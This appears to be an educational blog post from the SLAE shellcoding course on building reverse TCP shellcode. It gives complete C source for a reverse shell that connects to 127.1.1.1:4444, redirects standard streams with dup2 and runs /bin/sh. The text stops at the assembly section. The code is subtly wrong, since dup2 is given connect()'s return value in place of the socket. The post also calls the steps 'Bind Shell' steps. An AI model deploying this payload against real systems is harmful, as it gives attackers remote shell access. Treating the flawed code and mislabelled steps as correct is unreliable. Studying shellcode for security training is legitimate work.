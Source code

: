 ```yaml
---
layout: post
title: SLAE 2 - Shell Reverse TCP Shellcode
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

## Creating Shell Reverse TCP Shellcode

The proper steps for a Bind Shell are as follows:
1. Creating the socket
2. Connect to an IP and port
3. Redirect output
4. Execute a shell

#### In order to easily translate the calls in to assembly, lets build the Bind Shell in C first.  Then we will be able to translate it from there.

## Creating a Reverse Shell in C

We covered most of these details in the Shell Bind TCP Shellcode write up so I'm just going to put the C code in with light comments.

```c
#import <sys/socket.h>
#import <sys/types.h>
#import <netinet/in.h>
#import <stdlib.h>

int main() {
        int sockfd = socket(AF_INET, SOCK_STREAM, 0);
        
        struct sockaddr_in sock_addr;
        
        sock_addr.sin_family = AF_INET;
        sock_addr.sin_port = htons(4444);
        sock_addr.sin_addr.s_addr = inet_addr("127.1.1.1");
        
        // int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        int connection = connect(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));
        
        dup2(connection, 0);
        dup2(connection, 1);
        dup2(connection, 2);
        
        execve("/bin/sh", NULL, NULL);
}
```
## Translating to Assembly
